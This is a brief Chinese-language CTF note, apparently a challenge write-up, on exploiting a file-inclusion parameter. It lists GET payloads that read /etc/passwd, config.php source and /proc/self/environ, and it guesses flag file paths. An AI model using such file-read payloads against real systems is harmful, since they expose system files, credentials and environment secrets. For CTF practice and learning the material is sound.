

# 001



可以直接构造get请求

```url
查看系统敏感文件：?file=/etc/passwd
查看其他 PHP 文件源代码：?file=config.php
/proc/self/environ
```

1. **猜测常见路径**：尝试读取可能存放 flag 的默认路径，例如：
   - `?file=/flag`（直接根目录下的 flag 文件）
   - `?file=/var/www/html/flag.php`（网站目录下的 flag 文件）
   - `?file=/home/flag`（用户目录下的 flag 文件）